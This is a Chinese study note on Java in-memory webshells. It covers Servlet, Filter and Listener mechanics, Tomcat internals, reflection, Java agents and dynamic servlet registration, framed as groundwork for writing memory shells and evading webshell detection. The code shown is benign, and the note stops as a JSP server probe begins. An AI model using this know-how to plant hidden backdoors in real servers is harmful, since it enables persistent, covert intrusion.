

# Java内存马

> [一文看懂内存马 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/274466.html)

---

- [Java内存马](#java内存马)
  - [概述](#概述)
  - [JavaWeb内存马分类](#javaweb内存马分类)
  - [Java Web 三大件](#java-web-三大件)
    - [Servlet](#servlet)
      - [请求的处理过程](#请求的处理过程)
      - [Servlet 生命周期](#servlet-生命周期)
    - [Filter](#filter)
      - [Filter的基本工作原理](#filter的基本工作原理)
      - [Filter的生命周期](#filter的生命周期)
      - [Filter链](#filter链)
    - [Listener](#listener)
  - [Servlet容器](#servlet容器)
    - [Tomcat](#tomcat)
      - [Tomcat架构设计](#tomcat架构设计)
  - [JavaWeb内存马领域的一些常见概念](#javaweb内存马领域的一些常见概念)
    - [Java反射](#java反射)
    - [java instrumentation](#java-instrumentation)
      - [Java Agent](#java-agent)
  - [Servlet API 型内存马](#servlet-api-型内存马)
    - [Servlet API 型内存马的一些相关概念](#servlet-api-型内存马的一些相关概念)
    - [Servlet 3.0+ 提供动态注册机制](#servlet-30-提供动态注册机制)
      - [如何确认项目是否是 Servlet 3.0 以上的项目](#如何确认项目是否是-servlet-30-以上的项目)
    - [Filter 内存马](#filter-内存马)
    - [Servlet内存马](#servlet内存马)
  - [示例 -Tomcat-ServletAPI型内存马](#示例--tomcat-servletapi型内存马)
    - [环境配置](#环境配置)
    - [编写与部署ServletAPI型内存马](#编写与部署servletapi型内存马)
  - [检测与排查](#检测与排查)
    - [源码检测](#源码检测)
    - [内存马排查](#内存马排查)
  - [相关链接](#相关链接)

---

## 概述

**针对 JavaWeb 的内存马注入最后都要在 Servlet 容器上运行, 所以最终都指向需要能够被 Tomcat/Jetty 这样的 Servlet 容器解析的内存马**

内存马技术的核心思想非常简单，一句话就能概括，那就是对访问路径映射及相关处理代码的动态注册。

这种动态注册技术来源非常久远，在安全行业里也一直是不温不火的状态，直到冰蝎的更新将 java agent 类型的内存马重新带入大众视野并且瞬间火爆起来。

目前针对常规文件型的 Webshell 的查杀已经十分成熟了, 进而需要掌握内存马的编写与绕过技术

---

## JavaWeb内存马分类

> [JavaWeb 内存马一周目通关攻略 | 素十八 (su18.org)](https://su18.org/post/memory-shell/#前言)

目前安全行业主要讨论的内存马主要分为以下几种方式：

- 动态注册 servlet/filter/listener（使用 servlet-api 的具体实现）
- 动态注册 interceptor/controller（使用框架如 spring/struts2）
- 动态注册使用**职责链**设计模式的中间件、框架的实现（例如 Tomcat 的 Pipeline & Valve，Grizzly 的 FilterChain & Filter 等等）
- 使用 java agent 技术写入字节码

---

## Java Web 三大件

> [一文看懂内存马 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/274466.html)
>
> [java web请求三大器——listener、filter、servlet_listenser filter web 三大组件-CSDN博客](https://blog.csdn.net/chenwiehuang/article/details/80811193)

---

### Servlet

Servlet 是运行在 Web 服务器或应用服务器上的程序，它是作为来自 HTTP 客户端的请求和 HTTP 服务器上的数据库或应用程序之间的中间层。它负责处理用户的请求，并根据请求生成相应的返回信息提供给用户。

在Java中，`Servlet`是一个实现了`javax.servlet.Servlet`接口的Java类。通常，开发者会创建一个自定义的Servlet类来处理特定的请求，这个类包含具体的业务逻辑，比如从数据库中获取数据、处理表单提交等。

---

#### 请求的处理过程

1. **客户端发起请求**：客户端（通常是浏览器）向服务器发起一个HTTP请求，比如一个`GET`请求

2. **请求到达Servlet容器**：Servlet容器（如Tomcat、Jetty等）接收到请求，并根据请求的URL确定应该由哪个Servlet来处理这个请求。

3. **封装请求对象**：Servlet容器会将请求封装成`HttpServletRequest`对象，将响应封装成`HttpServletResponse`对象。这两个对象提供了与请求和响应相关的信息，如请求参数、请求头信息和响应数据。

4. **调用`init()`方法**：Servlet 容器通常会在第一次触发 Servlet 的请求发生时实例化该 Servlet

   在处理请求之前，Servlet容器会确保该Servlet实例已经被创建（如果还没有创建过）。如果这是第一次请求该Servlet，容器将调用Servlet的`init()`方法来完成Servlet的初始化工作。

   `init()`方法只会在Servlet的生命周期内被调用一次。

5. **调用`service()`方法**：Servlet容器调用Servlet实例的`service()`方法，传入`HttpServletRequest`和`HttpServletResponse`对象。`service()`方法根据请求的HTTP方法（如`GET`、`POST`等）来决定调用相应的`doGet()`或`doPost()`方法。

6. **调用相应的`doXXX()`方法**：由于请求类型为`GET`，所以容器将调用Servlet的`doGet()`方法。这个方法通常包含了应用的具体业务逻辑，如数据库查询、数据处理等。

7. **返回响应结果**：在业务逻辑处理完成后，`doGet()`方法会通过`HttpServletResponse`对象将结果（如HTML页面、JSON数据等）写回给客户端。

8. **结束请求处理**：请求处理结束后，Servlet容器将返回生成的响应给客户端（浏览器）。

9. **调用`destroy()`方法**：在容器关闭或Servlet被卸载时，Servlet容器将调用Servlet的`destroy()`方法，以释放Servlet占用的资源。`destroy()`方法只会在Servlet被销毁前调用一次。

通过这个过程，Servlet能够动态地生成和返回Web内容给客户端。

---

#### Servlet 生命周期

1. 服务器启动时( `web.xml` 中配置 `load-on-startup=1`，默认为0)或者第一次请求该servlet时，就会初始化一个Servlet对象，也就是会执行初始化方法`init(ServletConfig conf)`

   > 如果在 `web.xml` 文件中配置了 `load-on-startup` 属性为正整数（如`1`），则表示这个 Servlet 会在服务器启动时被加载和初始化。这种方式叫做**提前加载（Eager Loading）**。数字越小表示优先级越高
   >
   > 只有当 `load-on-startup` 为 `0` 或负数时，Servlet 容器会采用延迟加载，即在第一次请求时初始化该 Servlet

2. `service(ServletRequest req，ServletResponse res)` 方法是 Servlet 处理客户端请求的入口点

   每次有请求到达时，Servlet 容器会调用 Servlet 实例的 `service` 方法，该方法会根据请求的 HTTP 方法（如 GET、POST 等）调用相应的 `doGet()` 或 `doPost()` 方法

3. 在服务器关闭、应用程序卸载或重新部署时，Servlet 容器会调用 Servlet 的 `destroy()` 方法。这个方法的调用是为了允许 Servlet 进行一些清理工作，例如释放资源（如关闭数据库连接、释放文件句柄等）

4. 在 `destroy()` 方法被调用之后，Servlet 实例将变得不可达（没有引用指向它）。此时，JVM 的垃圾回收器（Garbage Collector，GC）将负责回收这个对象的内存

   > 垃圾回收的时机由 JVM 决定，因此无法精确控制它什么时候会发生。但通常来说，`destroy()` 方法被调用后，JVM 会在适当的时候回收该对象的内存。

---

### Filter

filter也称之为过滤器，是对Servlet技术的一个强补充，其主要功能是在HttpServletRequest到达 Servlet 之前，拦截客户的HttpServletRequest ，根据需要检查HttpServletRequest，也可以修改HttpServletRequest 头和数据；

> 也就是充当一个全局的请求/响应拦截修改器的作用
>
> FastAPI 中的中间件作用与此相似

在HttpServletResponse到达客户端之前，拦截HttpServletResponse ，根据需要检查HttpServletResponse，也可以修改HttpServletResponse头和数据。

---

#### Filter的基本工作原理

1. Java Web Filter 是一个实现了 `javax.servlet.Filter` 接口的 Java 类，与 Servlet 一样由 Servlet 容器（如 Tomcat、Jetty）调用和执行。Filter 类需要实现 `doFilter` 方法，并在其中编写拦截逻辑。

2. 可以在web.xml 注册一个 Filter 来对某个 Servlet 程序进行拦截处理

   Filter 的主要功能之一就是拦截请求，它可以决定是否将请求传递给目标 `Servlet` 或其他过滤器，并有能力在请求和响应传递前对其进行修改。

3. 当一个 HTTP 请求到达 Servlet 容器时，Servlet 容器首先检查请求的 URL 模式是否与任何注册的 `Filter` 匹配。如果匹配，Servlet 容器会调用 `Filter` 的 `doFilter` 方法。`doFilter` 方法可以选择是否继续调用过滤器链（`FilterChain.doFilter`）使得目标 Servlet 的 `service` 方法最终被调用。

4. `Filter` 不直接调用目标 `Servlet` 的 `service` 方法，而是调用 `FilterChain.doFilter` 方法。`FilterChain` 是由 Servlet 容器管理的对象，它决定下一个要执行的 `Filter` 或最终的 `Servlet`。

5. 通过在 `FilterChain.doFilter` 方法前后插入代码，可以在请求到达目标 Servlet 之前和响应返回客户端之前执行特定的逻辑，比如日志记录、性能监控等。

6. 如果 `Filter` 的 `doFilter` 方法没有调用 `FilterChain.doFilter` 方法，目标 `Servlet` 的 `service` 方法就不会被执行。这种机制可以用于访问控制，防止非法请求。

---

#### Filter的生命周期

- **创建和初始化**：Filter的创建和初始化确实由Web容器负责。Web应用程序启动时，Web服务器会创建Filter实例，并调用其`init`方法进行初始化。`init`方法只会执行一次，开发人员可以通过`FilterConfig`对象获取当前Filter的配置信息。
- **驻留和销毁**：Filter对象在创建后会驻留在内存中，直到Web应用被移除或服务器停止时才会销毁。在销毁前，Web容器会调用Filter的`destroy`方法，该方法也只会执行一次，用于释放Filter使用的资源。

---

#### Filter链

当多个filter同时存在的时候，组成了filter链。web服务器根据Filter在 `web.xml` 文件中的注册顺序，决定先调用哪个Filter。

当第一个Filter的doFilter方法被调用时，web服务器会创建一个代表Filter链的FilterChain对象传递给该方法，通过判断FilterChain中是否还有filter决定后面是否还调用filter。

---

### Listener

JavaWeb开发中的监听器（Listener）就是Application、Session和Request三大对象创建、销毁或者往其中添加、修改、删除属性时自动执行代码的功能组件。

- `ServletContextListener`：对Servlet上下文的创建和销毁进行监听

- `ServletContextAttributeListener`：监听Servlet上下文属性的添加、删除和替换

- `HttpSessionListener`：对Session的创建和销毁进行监听

  Session的销毁有两种情况: Session超时和调用Session对象的`invalidate()`方法

- `HttpSessionAttributeListener`：对Session对象中属性的添加、删除和替换进行监听

- `ServletRequestListener`：对请求对象的初始化和销毁进行监

- `ServletRequestAttributeListener`：对请求对象属性的添加、删除和替换进行监听

---

-  `用途`: 可以使用监听器监听客户端的请求、服务端的操作等。通过监听器，可以自动出发一些动作，比如监听在线的用户数量，统计网站访问量、网站访问监控等。

---

## Servlet容器

### Tomcat

> [一文看懂内存马 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/274466.html)

---

简单理解，Tomcat 是 HTTP服务器 + Servlet 容器; 其主要功能包括:

1. **接收和解析 HTTP 请求**：Tomcat 接收来自客户端的 HTTP 请求，并将其解析为文本格式。
2. **封装请求和响应对象**：Tomcat 将解析后的请求封装为 `HttpServletRequest` 对象，并将响应封装为 `HttpServletResponse` 对象。
3. **传递给 Servlet**：封装后的 `HttpServletRequest` 对象会被传递给相应的 Servlet 进行处理。
4. **生成响应**：Servlet 处理请求后，会生成响应内容，并通过 `HttpServletResponse` 对象返回给 Tomcat。
5. **发送响应**：Tomcat 将 `HttpServletResponse` 对象中的内容转换为 HTTP 响应文本，并发送回客户端浏览器。




---

#### Tomcat架构设计

> [Apache Tomcat 9 Architecture (9.0.93) - Architecture Overview](https://tomcat.apache.org/tomcat-9.0-doc/architecture/overview.html)
>
> [java - Tomcat 架构原理解析到架构设计借鉴 - 个人文章 - SegmentFault 思否](https://segmentfault.com/a/1190000023475177)

Tomcat 简单来说可以理解为一个 Web服务器 + Servlet 容器, 他需要做网络连接和Servlet管理, 相对应的设计了两个核心组件来实现这两个功能: `连接器` 和 `容器`

- `连接器` 用于处理外部网络连接
- `容器` 用来处理内部 Servlet

用一张图表示他们的关系:


- `Server`：在 Tomcat 中，Server 代表整个容器; 一个 Server 可以包含多个 Service

- `Service`：一个 Service 是一个中间组件，它将一个或多个 Connector 连接到一个 Engine

  - Tomcat 默认的 Service 名为 Catalina
  - 一个 Service 服务可以包含多个连接器，因为 Tomcat 支持多种网络协议，包括 HTTP/1.1、HTTP/2、AJP 等等
  - 一个 Service 服务还会包括一个容器，容器外部会有一层 Engine 引擎所包裹，负责与处理连接器的请求与响应，连接器与容器之间通过 ServletRequest 和 ServletResponse 对象进行交流

- `Connector`：Connector 负责处理客户端的通信

  Tomcat 支持多种协议，包括 HTTP/1.1、HTTP/2 和 AJP

- `Engine`：Engine 代表一个 Service 的请求处理管道。一个 Engine 可以包含多个 Host

- `Host`：Host 代表一个虚拟主机，通常与一个网络名称（如 www.example.com）相关联

  一个 Engine 可以对应一个多个host,  外部访问的这些域名通过 DNS 解析后，通常会指向同一个 IP 地址。在这种情况下，Tomcat 通过配置多个 Host 来区分不同的虚拟主机，每个虚拟主机可以托管不同的 Web 应用。

  当用户访问某个域名时，DNS 服务器会将该域名解析为相应的 IP 地址，然后请求会被发送到这台服务器上的 Tomcat 实例。Tomcat 会根据请求的 Host 头信息（即域名）来确定应该处理该请求的虚拟主机（Host），从而将请求路由到正确的 Web 应用。

  这种配置方式允许你在同一台服务器上托管多个域名和 Web 应用，简化了管理和部署。

- `Context`：Context 代表一个 Web 应用。一个 Host 可以包含多个 Context，每个 Context 有一个唯一的路径

- `Wrapper`：Wrapper 代表一个 Servlet。一个 Context 可以包含多个 Wrapper

- `Mapper`：Mapper 组件负责将请求路径映射到相应的容器组件（如 Host、Context 和 Wrapper）

  一个engine可以对一个多个host，也就是虚拟主机，一个host可以对应多个context，也就是web应用，一个context对应多个wrapper，也就是servlet。这个映射关系，通过mapper组件来关联，mapper组件保存了Web应用的配置信息，容器组件与访问路径的映射关系。Host容器的域名，Context容器中的web路径，Wrapper容器中的servlet映射的路径，这些配置信息是多层次的Map。

---

根据请求定位到指定servlet的流程图如下:


---

## JavaWeb内存马领域的一些常见概念

### Java反射

> [面试官：什么是Java反射？它的应用场景有哪些？ (qq.com)](https://mp.weixin.qq.com/s/TqSLUWYWfhHjpfI_srETJg)


反射提供的功能，能在运行时（动态）地

- 获取一个类的所有成员变量和方法
- 创建一个类的对象
- 获取对象成员变量&赋值
- 调用对象的方法
- 判断对象所属的类

在注入内存马的过程当中，我们可能需要用到反射机制，例如注入一个servlet型的内存马，我们需要使用反射机制来获取当前的context，然后将恶意的servlet（wrapper）添加到当前的context的children中。
在使用Java反射机制时，主要步骤包括:

1. 获取目标类型的Class对象
2. 通过 Class 对象分别获取Constructor类对象、Method类对象 & Field 类对象
3. 通过 Constructor类对象、Method类对象 & Field类对象分别获取类的构造函数、方法&属性的具体信息，并进行后续操作

---

###  java instrumentation

Java Instrumentation 是 Java SE 5 引入的一项功能，是Java提供的一个来自JVM的接口, 位于 `java.lang.instrument` 包中; 该接口提供了一系列查看和操作Java类定义的方法，例如修改类的字节码、向classLoader的classpath下加入jar文件等, 使得开发者可以通过Java语言来操作和监控JVM内部的一些状态, 在 Java 虚拟机（JVM）加载类之前或之后对类进行修改, 进而实现Java程序的监控分析，甚至实现一些特殊功能（如AOP、热部署）。

通过 Instrumentation，开发者可以构建一个独立于应用程序的代理程序（Agent），用来监测和协助运行在 JVM 上的程序，甚至能够替换和修改某些类的定义。例如，常见的应用包括监控代理、分析器、覆盖分析程序和事件日志记录程序。

---

#### Java Agent

Java agent是一种特殊的Java程序（Jar文件），它是Instrumentation的客户端。与普通Java程序通过main方法启动不同，agent并不是一个可以单独启动的程序，而必须依附在一个Java应用程序（JVM）上，与它运行在同一个进程中，通过Instrumentation API与虚拟机交互。

在注入内存马的过程中，我们可以利用java instrumentation机制，动态的修改已加载到内存中的类里的方法，进而注入恶意的代码。


---

## Servlet API 型内存马

> [JavaWeb 内存马一周目通关攻略 | 素十八 (su18.org)](https://su18.org/post/memory-shell/#前言)

Servlet、Listener、Filter 由 `javax.servlet.ServletContext` 去加载，无论是使用 xml 配置文件还是使用 Annotation 注解配置，均由 Web 容器进行初始化，读取其中的配置属性，然后向容器中进行注册。

---

### Servlet API 型内存马的一些相关概念

- **Servlet**：处理客户端的请求并生成响应，通常用于处理 HTTP 请求。

  `Servlet` 就像一个处理请求的“中间人”，当客户端（浏览器、APP）发送请求到服务器时，`Servlet` 负责

  处理这些请求，并生成相应的响应结果，比如返回一个网页、数据或其他资源。

  当你登录网站时，输入用户名和密码，然后点击登录按钮，这个动作就发出了一个请求。`Servlet` 接收到这个请求后，会验证你的用户名和密码是否合法，然后决定返回一个“登录成功”页面还是“登录失败”的错误信息页面。

- **Listener**：监听 Web 应用中的各种事件，如会话创建、销毁等，用于处理一些应用级别的逻辑。

  `Listener` 负责监听 Web 应用中的特定事件，比如用户登录、会话创建、应用启动或关闭等。当这些事件发生时，`Listener` 会自动执行相应的动作。

  比如，当你打开一个电商网站并添加商品到购物车时，`Listener` 可以监听到你刚刚创建了一个会话（Session），并记录下相关信息，方便下次继续访问时保持你的购物车状态。

- **Filter**：用于对请求或响应进行预处理或后处理，常用于请求过滤、日志记录、权限验证等。

  `Filter` 负责对请求进行预处理，或者对响应进行后处理。常见的用途是权限控制、日志记录、请求参数过滤等。在请求到达 `Servlet` 之前，`Filter` 先对请求进行一些检查或操作；在 `Servlet` 返回响应后，`Filter` 还可以对响应进行修改。

  比如你访问一个需要登录的页面，`Filter` 会先检查你是否已经登录，如果没有登录，它会拦截请求并将你重定向到登录页面，而不是直接让你访问内容。

- `ServletContext` 是 Java Web 应用中与整个 Web 应用相关的上下文对象。它提供了与 Web 容器交互的接口。所有的 `Servlet`、`Listener` 和 `Filter` 都通过 `ServletContext` 进行加载和管理。

  `ServletContext` 是整个应用的全局对象，它能在应用启动时初始化并保持整个生命周期

  `ServletContext` 是整个 Web 应用的共享空间, 每个 Web 应用只有一个 `ServletContext`，它代表了整个应用的上下文。所有的 `Servlet`、`Listener` 和 `Filter` 都可以访问这个 `ServletContext`

  `ServletContext` 可以让不同的 `Servlet` 共享一些公共信息，比如初始化参数、文件资源、数据库连接池等。这样所有的 `Servlet` 不用各自去查找这些信息，可以直接通过 `ServletContext` 访问。

  例如，多个 `Servlet` 可能需要读取同一个配置文件，`ServletContext` 可以统一管理这个文件并提供给所有 `Servlet` 使用。

  一些具体例子:

  - **Web 应用启动时初始化一些参数**：比如你想在整个 Web 应用中保存一些配置信息（如数据库连接参数、系统版本信息），你可以通过 `ServletContext` 在应用启动时设置这些参数，所有的 `Servlet` 都能使用这些参数。

    ```java
    ServletContext context = getServletContext();
    String dbUrl = context.getInitParameter("databaseUrl");
    ```

  - **获取应用的文件资源**：假设你的 Web 应用中有一些公共的图片或配置文件，`ServletContext` 可以帮你获取这些资源的路径，所有的 `Servlet` 都可以通过它找到这些公共资源。

    ```java
    ServletContext context = getServletContext();
    InputStream inputStream = context.getResourceAsStream("/WEB-INF/config.properties");
    ```

  > `getServletContext()` 是一个用于获取 `ServletContext` 对象的方法。它的作用是让当前的 `Servlet` 能够访问到 Web 应用的全局上下文，即 `ServletContext`
  >
  > **`getServletContext()`** 是 `HttpServlet` 类中的方法，它由所有 `Servlet` 继承。在任何一个 `Servlet` 中，你都可以调用 `getServletContext()` 来获取到当前 Web 应用的 `ServletContext` 实例。
  >
  > 一旦你通过 `getServletContext()` 获取了 `ServletContext`，你就可以调用它的一些方法，比如获取初始化参数、获取应用的文件资源、设置或读取应用级别的共享数据等。
  >
  > 例如:
  >
  > ```java
  > public class MyServlet extends HttpServlet {
  >  protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
  >      // 获取ServletContext对象
  >      ServletContext context = getServletContext();
  > 
  >      // 从ServletContext获取初始化参数
  >      String dbUrl = context.getInitParameter("databaseUrl");
  > 
  >      // 使用ServletContext共享一些数据
  >      context.setAttribute("appName", "My Awesome App");
  > 
  >      // 获取文件资源的输入流
  >      InputStream inputStream = context.getResourceAsStream("/WEB-INF/config.properties");
  > 
  >      // 进行其他处理
  >      response.getWriter().println("Database URL: " + dbUrl);
  >  }
  > }
  > 
  > ```
  >
  > ---
  >
  > 看上上述代码可能会有一些疑问, 比如 `为什么没有看到关于路由设置的操作?`
  >
  > 在 Java EE 中，`Servlet` 的路由（也就是请求映射）通常是通过 `web.xml` 文件或注解来配置的。上述代码示例只展示了 `Servlet` 的基本实现，并没有包含路由的配置。
  >
  > 正常开发上来说有如下两种注册路由的方式:
  >
  > - 使用 `web.xml` 文件: 可以在 `web.xml` 中定义 `Servlet` 的映射。示例如下：
  >
  >   ```xml
  >   <servlet>
  >       <servlet-name>MyServlet</servlet-name>
  >       <servlet-class>com.example.MyServlet</servlet-class>
  >   </servlet>
  >   <servlet-mapping>
  >       <servlet-name>MyServlet</servlet-name>
  >       <url-pattern>/myServlet</url-pattern>
  >   </servlet-mapping>
  >   ```
  >
  >   在这个例子中，任何访问 `/myServlet` 的请求都会被 `MyServlet` 处理。
  >
  > - **使用注解（Java EE 3.0 及以上）**： 可以直接在 `Servlet` 类上使用注解来进行路由映射，示例如下：
  >
  >   ```java
  >   import javax.servlet.annotation.WebServlet;
  >           
  >   @WebServlet("/myServlet")
  >   public class MyServlet extends HttpServlet {
  >       protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
  >           // 处理请求的逻辑
  >       }
  >   }
  >   ```
  >
  >   这个例子中，`@WebServlet("/myServlet")` 注解会将该 `Servlet` 映射到 `/myServlet` 路由。
  >
  > 这就是本节开篇所讲述的 Servlet、Listener、Filter 由 `javax.servlet.ServletContext` 去加载，无论是使用 xml 配置文件还是使用 Annotation 注解配置，均由 Web 容器进行初始化，读取其中的配置属性，然后向容器中进行注册。

---

### Servlet 3.0+ 提供动态注册机制

**Servlet 3.0** 是 Java Servlet 规范的一个版本，于 2009 年发布，带来了许多新特性，使得 Web 应用开发更为灵活和现代化。它是 Java EE 6 的一部分，旨在增强 Servlet 技术的功能和开发者的便利性。

Servlet 3.0 中与本节内容相关的关键特性如下:

- **基于注解的配置**：在 Servlet 3.0 中，开发者可以使用注解（如 `@WebServlet`、`@WebFilter` 和 `@WebListener`）来替代传统的 `web.xml` 文件进行组件的配置和注册。这样可以减少配置文件的复杂性，代码更加简洁。

  ```java
  @WebServlet("/hello")
  public class HelloServlet extends HttpServlet {
      protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
          response.getWriter().println("Hello World");
      }
  }
  ```

  > PS: 不可以在 JSP 文件中使用 `@WebServlet`、`@WebFilter` 或 `@WebListener` 注解
  >
  > 这些注解是用于 Java 类的，而不是用于 JSP 文件。JSP 文件主要用于表示视图层，包含 HTML 和嵌入的 Java 代码，但不适合用于定义 Servlet、Filter 和 Listener。
  >
  > 运行时环境（如 Tomcat）会扫描和处理 Java 类中的这些注解，以配置相应的 Servlet、Filter 和 Listener。JSP 文件在运行时被转换为 Servlet 类，但在转换之前，它们只是文本文件，不能包含 Java 类级别的注解

- **动态注册**：通过 `ServletContext` 的 `addServlet()`、`addFilter()` 和 `addListener()` 方法，可以动态地在应用启动时注册 `Servlet`、`Filter` 和 `Listener`。这种动态注册使得 Web 应用程序更具灵活性。

  ```java
  ServletRegistration.Dynamic dynamicServlet = servletContext.addServlet("DynamicServlet", new DynamicServlet());
  dynamicServlet.addMapping("/dynamic");
  ```

  - `ServletRegistration.Dynamic` 是 Servlet 3.0 规范引入的一个接口，它允许开发者在应用启动时通过 `ServletContext` 动态注册 `Servlet`。使用这个接口，可以在代码中添加、配置和管理 `Servlet`，而不是依赖传统的 `web.xml` 配置文件。
  - `ServletRegistration.Dynamic` 是 `ServletRegistration` 接口的一个子接口，专门用于动态注册 `Servlet`。它提供了用于配置 `Servlet` 的方法，比如设置 URL 映射、初始化参数等。
  - 通过调用 `ServletContext` 的 `addServlet()` 方法，可以得到一个 `ServletRegistration.Dynamic` 对象，用于进一步配置和映射动态注册的 `Servlet`。
  - 可以在 Web 应用启动时（通常是在 `ServletContextListener` 或 `ServletContainerInitializer` 中）使用 `ServletContext` 的 `addServlet()` 方法来注册新的 `Servlet`，并通过 `ServletRegistration.Dynamic` 接口进行配置。

  例如:

  ```java
  import javax.servlet.ServletContext;
  import javax.servlet.ServletException;
  import javax.servlet.ServletRegistration;
  import javax.servlet.http.HttpServlet;
  import javax.servlet.http.HttpServletRequest;
  import javax.servlet.http.HttpServletResponse;
  import java.io.IOException;
  
  public class MyServletInitializer {
  
      public void onStartup(ServletContext servletContext) throws ServletException {
          // 1. 动态注册一个 Servlet
          ServletRegistration.Dynamic dynamicServlet = servletContext.addServlet("MyDynamicServlet", new HttpServlet() {
              protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
                  response.getWriter().println("Hello from Dynamic Servlet!");
              }
          });
  
          // 2. 配置 Servlet
          dynamicServlet.setLoadOnStartup(1); // 设置优先级为启动时加载
          dynamicServlet.addMapping("/dynamic"); // 映射到 /dynamic 路由
      }
  }
  
  ```

  `ServletRegistration.Dynamic` 是 Servlet 3.0 规范引入的一个接口，它允许开发者在应用启动时通过 `ServletContext` 动态注册 `Servlet`。使用这个接口，你可以在代码中添加、配置和管理 `Servlet`，而不是依赖传统的 `web.xml` 配置文件。

  - `ServletRegistration.Dynamic` 是 `ServletRegistration` 接口的一个子接口，专门用于动态注册 `Servlet`。它提供了用于配置 `Servlet` 的方法，比如设置 URL 映射、初始化参数等。
  - 通过调用 `ServletContext` 的 `addServlet()` 方法，可以得到一个 `ServletRegistration.Dynamic` 对象，用于进一步配置和映射动态注册的 `Servlet`。
  
  你可以在 Web 应用启动时（通常是在 `ServletContextListener` 或 `ServletContainerInitializer` 中）使用 `ServletContext` 的 `addServlet()` 方法来注册新的 `Servlet`，并通过 `ServletRegistration.Dynamic` 接口进行配置
  
  示例代码:
  
  ```java
  import javax.servlet.ServletContext;
  import javax.servlet.ServletException;
  import javax.servlet.ServletRegistration;
  import javax.servlet.http.HttpServlet;
  import javax.servlet.http.HttpServletRequest;
  import javax.servlet.http.HttpServletResponse;
  import java.io.IOException;
  
  public class MyServletInitializer {
  
      public void onStartup(ServletContext servletContext) throws ServletException {
          // 1. 动态注册一个 Servlet
          ServletRegistration.Dynamic dynamicServlet = servletContext.addServlet("MyDynamicServlet", new HttpServlet() {
              protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
                  response.getWriter().println("Hello from Dynamic Servlet!");
              }
          });
  
          // 2. 配置 Servlet
          dynamicServlet.setLoadOnStartup(1); // 设置优先级为启动时加载
          dynamicServlet.addMapping("/dynamic"); // 映射到 /dynamic 路由
      }
  }
  ```
  
  `ServletRegistration.Dynamic` 提供了一些常用方法来配置 `Servlet`，包括：
  
  - **`setLoadOnStartup(int loadOnStartup)`**：设置 `Servlet` 的启动加载顺序
  
    - 参数值为正数时表示启动时加载，值越小优先级越高
  
    - 0 或负数表示在首次请求时再加载。
  
  - **`addMapping(String... urlPatterns)`**：为 `Servlet` 添加 URL 路由映射
  
    可以通过这个方法将 `Servlet` 绑定到一个或多个 URL 上。
  
  - **`setAsyncSupported(boolean isAsyncSupported)`**：
  
    指定该 `Servlet` 是否支持异步处理。此 Servlet 需要处理长时间运行的任务（例如长轮询或 WebSocket），可以将异步支持设置为 `true`
  
  - **`setInitParameter(String name, String value)`**：动态设置 `Servlet` 的初始化参数

---

Servlet 3.0 引入了动态注册的功能，使得在 Web 应用启动时可以动态地向 `ServletContext` 注册 `Servlet`、`Filter` 和 `Listener`。这意味着开发者可以在代码中直接添加这些组件，而不必依赖传统的 `web.xml` 配置文件。

- `ServletContext` 提供了一系列方法，如 `addServlet()`、`addFilter()` 和 `addListener()`，这些方法允许开发者在代码中注册新的 `Servlet`、`Filter` 或 `Listener`。

  这些方法可以在 Web 应用启动时或特定条件下调用，从而允许开发者按需创建和配置这些组件。


---

#### 如何确认项目是否是 Servlet 3.0 以上的项目

- **检查依赖项**

  检查项目的依赖项是否包含 Servlet 3.0 或更高版本的依赖。通常，这可以通过以下方式来确认：

  - **Maven 项目**：查看 `pom.xml` 中的 `javax.servlet-api` 版本

    ```xml
    <dependency>
        <groupId>javax.servlet</groupId>
        <artifactId>javax.servlet-api</artifactId>
        <version>3.0.1</version>  <!-- 确保版本是 3.0 或更高 -->
        <scope>provided</scope>
    </dependency>
    ```

  - **Gradle 项目**：查看 `build.gradle` 文件中的依赖配置。

    ```groovy
    dependencies {
        providedCompile 'javax.servlet:javax.servlet-api:3.0.1'  // 确保版本是 3.0 或更高
    }
    ```

- **查看 Web 容器版本**

  Servlet API 是由 Web 容器实现的，检查项目使用的 Web 容器是否支持 Servlet 3.0 或更高版本。例如：

  - **Tomcat 7** 或更高版本支持 Servlet 3.0。
  - **Jetty 9** 支持 Servlet 3.0

  如果项目部署在这些支持 Servlet 3.0 的容器中，通常项目也是基于 Servlet 3.0。

- **检查 `web.xml`**

  如果项目使用 `web.xml` 进行配置，检查 `web.xml` 文件的 `version` 属性。Servlet 3.0 的 `web.xml` 版本号应为 `3.0` 或更高。

  ```xml
  <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
           xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
           xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                               http://xmlns.jcp.org/xml/ns/javaee/web-app_3_0.xsd"
           version="3.0">
      <!-- 配置项 -->
  </web-app>
  ```

- **使用注解**

  如果项目中使用了注解来定义 `Servlet`、`Filter` 或 `Listener`，说明项目至少是基于 Servlet 3.0，因为这是 3.0 版本引入的新特性。

  如果在项目中看到类似 `@WebServlet`、`@WebFilter` 或 `@WebListener` 的注解，项目很可能是 Servlet 3.0。


上面都是直接从后端确认项目是否是 Servlet3.0+ 的项目的方案, 如果能写/上传文件的话也可以用如下 JSP 文件来查看:

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
